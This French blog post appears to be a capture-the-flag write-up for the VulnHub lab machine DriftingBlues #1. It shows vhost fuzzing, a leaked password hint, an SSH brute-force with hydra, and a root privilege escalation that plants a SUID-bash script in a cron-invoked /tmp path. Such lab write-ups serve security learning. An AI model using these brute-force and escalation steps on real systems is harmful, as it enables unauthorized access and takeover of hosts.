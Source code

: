 ```yaml
---
title: Solution du CTF DriftingBlues #1 de VulnHub
tags: [CTF, VulnHub]
---
```


First of the name
-----------------

[DriftingBlues](https://www.vulnhub.com/entry/driftingblues-1,625/), ici le premier d'une grande lignée de VMs intentionnellement vulnérables dans l'unique but de s'amuser et apprendre, a été conçu par [tasiyanci](https://twitter.com/tasiyanci).  

```
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   2048 ca:e6:d1:1f:27:f2:62:98:ef:bf:e4:38:b5:f1:67:77 (RSA) 
|   256 a8:58:99:99:f6:81:c4:c2:b4:da:44:da:9b:f3:b8:9b (ECDSA) 
|_  256 39:5b:55:2a:79:ed:c3:bf:f5:16:fd:bd:61:29:2a:b7 (ED25519) 
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) 
|_http-title: Drifting Blues Tech 
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Sur le site web on peut trouver différents noms et adresses emails : *Charles Brown*, *sheryl@driftingblues.box*, *eric@driftingblues.box*.  

On trouve aussi dans la page le commentaire HTML encodé en base64 :  

```html
<!-- L25vdGVmb3JraW5nZmlzaC50eHQ= -->
```

Ce qui se décode en : */noteforkingfish.txt*  

Okaaaaaaaayyyyyyyy
------------------

Le path cité nous amène sur une page remplie de *Ook!*, *Ook?* et autres *Ook.* Connaissant déjà quelques langages de programmation ésotériques j'ai tout de suite saisi la référence mais une recherche google aurait sans doute amené les plus dubitatifs sur une explication.  

Le site *dcode.fr* dispose [d'un interpréteur](https://www.dcode.fr/langage-ook) et l'exécution du script produit l'affichage suivant :  

> my man, i know you are new but you should know how to use host file to reach our secret location. -eric

Voyons un peu les virtual hosts qui retournent une réponse différente de celle par défaut (à savoir ici une taille différente de 7710 octets) :  

```console
$ ffuf -w /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt -u http://192.168.56.6/ -H "Host: FUZZ.driftingblues.box" -fs 7710 

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.3.1 
________________________________________________ 

 :: Method           : GET 
 :: URL              : http://192.168.56.6/ 
 :: Wordlist         : FUZZ: /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt 
 :: Header           : Host: FUZZ.driftingblues.box 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
 :: Filter           : Response size: 7710 
________________________________________________ 

test                    [Status: 200, Size: 24, Words: 1, Lines: 6] 
:: Progress: [50000/50000] :: Job [1/1] :: 2862 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```

Une fois sur le site on obtient juste le message *work in progress -eric*.  

Après beaucoup d'énumération je trouve sur ce vhost un fichier... *robots.txt*. Comme quoi un simple appel à Nuclei m'aurait fait gagné du temps, à se rappeller lors de la prochaine découverte de vhost.  

Le plus intéressant est une URL interdite qui mentionne un accès SSH :  

```
User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up
```

Le message :  

```
we can use ssh password in case of emergency. it was "1mw4ckyyucky".

sheryl once told me that she added a number to the end of the password.

-db
```

C'est toujours un plaisir de résoudre un problème avec une ligne de Python :  

```console
$ python3 -c "[print(f'1mw4ckyyucky{i}') for i in range(10)]" > pass.txt
$ hydra -L users.txt -P pass.txt ssh://192.168.56.6
--- snip ---
[22][ssh] host: 192.168.56.6   login: eric   password: 1mw4ckyyucky6
```

Let's root
----------

Ce compte dispose du premier flag mais n'a aucune règle sudo associée. L'outil d'énumération de failles et de mauvaises configurations locales LinPEAS ne retourne rien qui vaille...  

En revanche on peut monitorer les process avec [pspy](https://github.com/DominicBreuker/pspy) et là on a quelque chose de plus intéressant :  

```
2022/01/19 01:25:01 CMD: UID=0    PID=20942  | /usr/bin/zip -r -0 /tmp/backup.zip /var/www/  
2022/01/19 01:25:01 CMD: UID=0    PID=20941  | /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20940  | /bin/sh -c /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20939  | /usr/sbin/CRON -f  
2022/01/19 01:25:01 CMD: UID=0    PID=20944  | sudo /tmp/emergency
```

Le dernier script mentionné est manquant :  

```
eric@driftingblues:~$ file /tmp/emergency 
/tmp/emergency: cannot open `/tmp/emergency' (No such file or directory)
```

Et comme il est dans */tmp* on peut le créer pour y placer par exemple le contenu suivant :  

```bash
#!/bin/bash 
cp /bin/bash /tmp/g0tr00t 
chmod 4755 /tmp/g0tr00t
```

On attend que la tâche CRON s'exécute et on a notre shell :  

```console
eric@driftingblues:/tmp$ ./g0tr00t -p 
g0tr00t-4.3# id 
uid=1001(eric) gid=1001(eric) euid=0(root) groups=1001(eric) 
g0tr00t-4.3# cd /root 
g0tr00t-4.3# ls 
root.txt 
g0tr00t-4.3# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations! 
thank you for playing
```

Un CTF du type jeu de pistes mais suffisamment logique pour être agréable.

*Published January 19 2022 at 20:10*
